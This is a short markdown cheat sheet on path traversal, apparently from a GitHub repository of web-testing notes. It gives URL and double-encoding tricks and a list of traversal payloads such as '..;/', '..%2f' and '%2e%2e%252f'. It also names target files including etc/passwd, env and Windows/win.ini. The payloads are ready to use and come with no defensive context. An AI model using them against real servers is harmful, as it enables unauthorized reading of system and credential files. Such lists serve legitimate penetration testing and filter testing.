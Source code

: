 # Path Transversal

|Char|Encoded|
|---|---|
|space|%20|
|/|%2f|
|\|%5c|
|%|%25|
|.|%2e|
|f|%66|
|e|%65|

## Tricks

```
%252%66 -> %2f -> /
%252%65 -> %2e -> .
%252f -> %2f -> /
%252e -> %2e -> .
```

## Payloads

```
..;/
..%5c
..%2f
../
..\
..;\
..%252f
%2e%2e%252f
%252%66.%252%65
/
//
///
////
/////
//////
///////
////////
/////////
//////////
```

## Files

env

etc/passwd

Windows/win.ini

## Resources

| URL                                                                                  |
| ------------------------------------------------------------------------------------ |
| [https://github.com/GrrrDog/weird_proxies](https://github.com/GrrrDog/weird_proxies) |